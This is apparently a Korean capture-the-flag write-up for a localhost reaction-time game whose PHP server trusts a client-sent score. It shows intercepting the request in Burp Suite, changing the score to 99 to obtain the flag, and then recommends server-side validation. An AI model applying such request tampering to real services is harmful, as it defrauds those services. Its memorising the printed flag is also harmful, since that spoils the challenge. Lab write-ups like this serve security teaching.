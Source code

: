 # 1. 문제 분석
## 1.1 문제 설명
반응속도를 테스트하는 웹 게임  
100ms 미만의 반응속도를 달성하면 플래그 획득 가능  
클라이언트-서버 통신을 통해 기록을 검증  

# 2. 취약점 분석
## 2.1 통신 구조 확인
- 클라이언트(JavaScript)에서 반응 속도 측정
- 측정된 시간을 서버(PHP)로 전송
- 서버에서 플래그 반환 여부 결정

## 2.2 취약점 발견
- 클라이언트에서 서버로 전송되는 score 값 조작 가능
- 서버 측에서 충분한 검증 없이 score 값 신뢰
- HTTP 요청 변조를 통한 공격 가능

# 3. Burp Suite를 이용한 공격
## 3.1 Burp Suite 설정
1. Proxy 탭에서 Intercept 켜기
2. 브라우저에서 Burp Suite 프록시 설정
3. 게임 페이지 로드 및 통신 감시

## 3.2 요청 분석
```http
POST /question6.php HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 13

{"score": 150}
```

## 3.3 요청 변조
1. Intercept 기능으로 POST 요청 캡처
2. score 값을 99로 변조:
```http
POST /question6.php HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 12

{"score": 99}
```
3. 변조된 요청 전송

## 3.4 응답 확인
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
    "success": true,
    "message": "점수가 저장되었습니다.",
    "score": 99,
    "flag": "FLAG{F4st_R3fl3x_M4st3r}"
}
```

# 4. 취약점 원인
## 4.1 클라이언트 측 검증 한계
- JavaScript로 측정된 시간은 조작 가능
- 클라이언트에서 생성된 데이터는 신뢰할 수 없음

## 4.2 서버 측 검증 부재
- 비정상적인 반응 시간에 대한 검증 부족
- 클라이언트 데이터를 그대로 신뢰

# 5. 대응 방안
## 5.1 서버 측 검증 강화
- 비정상적인 반응 시간 필터링
- 연속된 요청에 대한 제한
- 클라이언트 행동 패턴 분석

## 5.2 보안 기능 추가
- 요청에 대한 서명 검증
- 시간 기반 토큰 사용
- 서버 측에서 타임스탬프 검증

# 6. 최종 플래그
```
FLAG{F4st_R3fl3x_M4st3r}
```